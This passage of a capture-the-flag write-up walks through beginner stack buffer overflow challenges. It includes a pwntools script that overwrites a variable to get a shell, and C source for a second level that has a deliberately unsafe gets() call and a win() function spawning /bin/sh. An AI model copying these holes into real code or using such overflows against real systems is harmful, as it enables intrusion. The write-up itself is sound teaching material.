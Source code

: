 
Doing some reading, I found out that apparently the Ghidra variable names indicate stack frame offset (which makes this so so much easier). That is, `local_118` is `0x118` bytes offset from the stack frame pointer, and similarly `local_c` is `0xc` offset. Thus, since the decompiled code indicates that the `gets` will put stuff into `local_118`, we just need to write `0x118 - 0xc` bytes of junk and then write `0x1337` and we should get shell access. 

Thus, the exploit is as follows:

```
from pwn import *

binary = context.binary = ELF('./pwnme')

p = process(binary.path)
payload = b''
payload += (0x118 - 0xc) * b'A'
payload += p32(0x1337)

p.sendlineafter("Welcome to PWN 101, smash my variable please.\n", payload)
p.interactive()
```
At this point we get shell access and we can just run `cat flag.txt` to get the flag. Yay! On to the next one!

# Intro to PWN 2

Similar setup to last time, except we have a new executable made from the following C code:
```
#include <stdlib.h> 
#include <stdio.h> 

void win(){ 
    system("/bin/sh"); 

} 

void vuln(){
    char buf[55]; 
    gets(buf); 
} 

int main(){ 
    puts("Level 2: Control the IP\n"); 
    vuln(); 
    return 0; 
} 
```
Running `checksec` on this new executable, we get:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
And just to get it out of the way, here's the decompiled version from Ghidra:
```
void win(void)

{
  system("/bin/sh");
  return;
}


```